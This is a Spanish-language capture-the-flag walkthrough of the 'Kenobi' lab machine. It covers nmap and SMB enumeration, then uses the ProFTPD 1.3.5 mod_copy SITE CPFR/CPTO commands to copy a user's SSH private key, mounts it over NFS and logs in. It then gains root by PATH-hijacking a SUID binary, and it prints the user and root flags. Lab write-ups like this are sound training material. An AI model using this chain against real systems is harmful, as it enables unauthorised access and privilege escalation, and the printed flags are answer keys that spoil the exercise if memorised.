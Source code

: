 # KENOBI

## Escaneos de puertos

```bash
nmap ip
```

- \-sV: para saber las versiones de los servicios
- \-O: para saber el SO

![image](1.png)

```bash
nmap -p PUERTO --script=SCRIPT1,SCRIPT2 IP
```

* \-p: Indica el puerto donde se escanea
* \--script: lo que hace es ejecutar un script (puedes poner más de un script separándolo con comas como se ve arriba).
* SCRIPT1 (smb-enum-shares.nse): Enumera los recursos compartidos (shares) disponibles en el servidor SMB.
* SCRIPT2 (smb-enum-users.nse): Intenta enumerar los usuarios en el servidor SMB.

![image](2.png)

## Accedemos a los recursos compartidos SMB de un servidor remoto

```bash
smbclient //Ruta
```

* smbclient: es un cliente en línea de comandos para acceder a recursos compartidos en servidores SMB (Windows / Linux con Samba)
* //10.10.143.215/anonymous: en este caso esta sería la ruta donde se encuentra los recursos compartidos. Donde `10.10.143.215` es la ip del servidor SMB y `anonymous` es el nombre del recurso que queremos acceder.

![image](3.png)

## Obtener versión de ProFtpd

Para ello ponemos en escucha en el puerto 21 que sería el ftp de esta maquina y obtenemos la versión.

```bash
nc IP PUERTO
```

* IP (10.10.143.215): IP del servidor
* PUERTO (21): Puerto del protocolo

![image](4.png)

## Buscar Exploits para ProFtpd 1.3.5

Para ello usamos el comando searchsploit y buscamos por el nombre del software mas la versión:

```bash
searchsploit SOFTWARE VERSION
```

* SOFTWARE (ProFtpd)
* VERSION (1.3.5)

![image](5.png)

## Copiamos el id_rsa

Para ello volvemos a poner en escucha el puerto ftp y ponemos los siguientes comandos.

`SITE CPFR /home/kenobi/.ssh/id_rsa`
`SITE CPTO /var/tmp/id_rsa`

* SITE: extensión de comandos FTP que permite ejecutar comandos específicos del servidor.
* CPFR: Significa **Copy From Remote**.
* CPTO: Significa **Copy To Remote**.

![image](6.png)

Lo que hemos hecho anteriormente es para copiar el archivo id_rsa del servidor y lo que vamos hacer ahora es pegar el archivo id_rsa en lo que hemos montado:

```bash
mkdir /mnt/kenobiNFS  
mount 10.10.143.215:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```

```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.143.215
```

Una vez creado la estructura y haber copiado el archivo entramos por ssh y buscamos la flag que se encuentra en `/home/kenobi/user.txt` esto nos da la siguiente flag:

`d0b0f3f53b6caa532a83915e19224899`

![image](7.png)

## Escala de privilegios

```bash
find / -perm -u=s -type f 2>/dev/null
```

* `find /`:   Busca en todo el sistema de archivos, comenzando desde el directorio raíz (`/`).    
 *  `-perm -u=s`:      La opción `-perm` permite buscar archivos con permisos específicos.    
    - `-u=s:` Significa que el propietario del archivo tiene el **bit setuid** activado.
*  `-type f`:  Solo busca **archivos regulares** (no directorios, enlaces simbólicos, etc.).    
*  `2>/dev/null`: Redirige los **errores** estándar a `/dev/null`, lo que significa que cualquier mensaje de error (por ejemplo, permisos denegados) no se mostrará en la salida.    

Ahora ponemos los siguientes comando que lo que hace es ponernos como administrador y entramos en la shell del servidor con permisos de root 

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

* `echo /bin/sh > curl`: Crea archivo `curl` con ruta a shell.
* `chmod 777 curl`: Da permisos completos al archivo `curl`.
* `export PATH=/tmp:$PATH`: Agrega `/tmp` al `PATH` para ejecutar `curl`
* `/usr/bin/menu`: Ejecuta `menu`, posiblemente elevando privilegios a root.

Entramos en el archivo /root/root.txt y hay encontraremos la ultima flag que sería esta:

`177b3cd8562289f37382721c28381f02`

![image](8.png)